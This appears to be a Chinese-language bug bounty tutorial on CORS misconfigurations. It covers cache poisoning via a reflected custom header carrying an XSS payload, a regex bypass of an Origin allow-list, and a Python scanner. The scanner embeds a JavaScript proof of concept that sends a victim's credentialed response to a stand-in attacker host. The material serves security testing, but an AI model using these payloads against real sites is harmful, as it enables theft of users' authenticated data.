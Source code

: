 ```yaml
---
layout: post
title: BugBounty基础 - CORS
---
```


## 介绍
---

关于CORS的过多介绍这里不再赘述，以下文章很清楚的描写了相关信息:

> 通过访问攻击者部署的网站，请求目标服务器，从而跨域访问受害者的相关资源

[Exploiting CORS misconfigurations for Bitcoins and bounties](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)

[Advanced CORS Exploitation Techniques](https://corben.io/blog/18-6-16-advanced-cors-techniques)


## 深入理解
---

### 在无COOKIE和认证时进行客户端缓存投毒(Client-Side cache poisoning)

> 此情况网站会将指定的**自定义** http头用作回显

```
GET / HTTP/1.1  
Host: example.com  
X-User-id: <svg/onload=alert(1)>  
  
HTTP/1.1 200 OK  
Access-Control-Allow-Origin: *  
Access-Control-Allow-Headers: X-User-id  
Content-Type: text/html  
...  
Invalid user: <svg/onload=alert(1)>
```


### 一种对Origin头过滤的案例及绕过

```json
SetEnvIf Origin "^https?:\/\/(.*\.)?xxe.sh([^\.\-a-zA-Z0-9]+.*)?" AccessControlAllowOrigin=$0Header set Access-Control-Allow-Origin %{AccessControlAllowOrigin}e env=AccessControlAllowOrigin
```

```
[^\.\-a-zA-Z0-9] = does not match these characters: "." "-" "a-z" "A-Z" "0-9"+ = a quantifier, matches above chars one or unlimited times (greedy).* = any character(s) except for line terminators
```

> 从 xxe.sh阻止所有子域和这些域上的任何端口进行跨域访问

使用空格进行绕过 `. - a-z A-Z 0-9` 正则匹配

```
Origin: 'http://xxx.xxe.sh .payload'
```

随后修改hosts文件

```
127.0.0.1 xxx.xxe.sh_.payload
```

## 代码实现
---

既然知道了能够通过 `Access-Control-Allow-Origin` 和 `Access-Control-Allow-Credentials` 验证是否存在CORS，以及了解了相关的绕过方法和触发方法，那么做一个简单的扫描器也轻而易举:

```python
#python3

import requests
import re
import sys

if len(sys.argv) < 2:
    print("requires a url parameter.")
    sys.exit(0)
else:
    url = sys.argv[1]

def CheckCORS(url):
    domain = re.search(r"https?://([\w.-]+)/", url)
    domain = domain.group(1)
    payload = ['https://'+domain+'.test.com','http://'+domain+'.test.com','https://'+domain+' .test.com','https://'+domain+'_.test.com','null','https://www.test.com','http://www.test.com']

    POC = """
    var req = new XMLHttpRequest();  
    req.onload = reqListener;  
    req.open('get','"""+url+"""',true);  
    req.withCredentials = true;  
    req.send();  
    function reqListener() {  
        location='//atttacker.net/log?key='+this.responseText;  
    };
    """
    
    for i in range(len(payload)):
        try:
            headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0",
            "Origin": payload[i]
            }
            response = requests.get(url,headers=headers)
            acao_headers = response.headers['Access-Control-Allow-Origin']
            acac_headers = response.headers['Access-Control-Allow-Credentials']
            
            if (acao_headers == payload[i] or  acao_headers == '*') and acac_headers == "true":
                print("{} has a CORS vulnerability.".format(url))
                print("try to use poc:\n {}".format(POC))
                print("change hosts file to: 127.0.0.1  {}\nand put POC HTML file in HTTP Server.".format(payload[i]))
                break
                return url
        except:
            pass

  

if __name__ == "__main__":
    CheckCORS(url)
```